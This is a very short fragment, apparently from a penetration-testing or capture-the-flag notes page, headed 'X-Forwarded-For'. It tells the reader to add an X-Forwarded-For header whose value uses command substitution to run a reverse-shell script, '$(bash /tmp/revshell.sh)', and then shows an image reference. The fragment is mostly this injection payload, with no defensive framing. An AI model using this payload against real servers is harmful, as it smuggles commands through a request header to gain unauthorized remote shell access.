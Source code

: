 **X-Forwarded-For**

Add the following line to the payload

```
X-Forwarded-For: $(bash /tmp/revshell.sh)
```

<figure><img src="../../.gitbook/assets/image (977).png" alt=""><figcaption></figcaption></figure>



